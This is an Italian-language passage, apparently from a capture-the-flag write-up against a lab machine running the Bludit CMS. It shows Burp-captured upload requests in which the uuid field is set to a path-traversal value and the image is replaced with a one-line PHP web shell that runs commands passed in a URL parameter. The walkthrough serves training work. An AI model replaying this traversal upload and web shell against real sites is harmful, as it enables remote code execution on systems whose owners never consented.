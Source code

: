 ```bash
Cookie: BLUDIT-KEY=atkvm1cgaqekr03c0j35krl9t5

# codice immagine 

-----------------------------24519939964357608924145519178
Content-Disposition: form-data; name="images[]"; filename="normal.png"
Content-Type: image/png

<IMAGE>

-----------------------------24519939964357608924145519178
Content-Disposition: form-data; name="uuid"

e9db0bd2a08b1e59c6517e5014ad8fcf
-----------------------------24519939964357608924145519178
Content-Disposition: form-data; name="tokenCSRF"

bf4d7bdd3837f910be1753a72ecfb697f0b6241e
-----------------------------24519939964357608924145519178-

```

Inviamo la richiesta al bit Repeater di Burp premendo CTRL + R , modifica il valore uuid in ../../tmp e sostituiamo il codice immagine con il seguente payload PHP, che può essere utilizzato per eseguire comandi di sistema.

```php
<?=`$_GET[0]`?>
```

ottenendo la seguente richiesta

```burp
POST /admin/ajax/upload-images HTTP/1.1
Host: 10.10.10.191
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.191/admin/new-content
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=--------------------------
-24519939964357608924145519178
Content-Length: 512
Origin: http://10.10.10.191
DNT: 1
Connection: close
Cookie: BLUDIT-KEY=atkvm1cgaqekr03c0j35krl9t5

-----------------------------24519939964357608924145519178
Content-Disposition: form-data; name="images[]"; filename="exploit.png"
Content-Type: image/png

<?=`$_GET[0]`?>

-----------------------------24519939964357608924145519178
Content-Disposition: form-data; name="uuid"

../../tmp
-----------------------------24519939964357608924145519178
Content-Disposition: form-data; name="tokenCSRF"

bf4d7bdd3837f910be1753a72ecfb697f0b6241e
-----------------------------24519939964357608924145519178--

```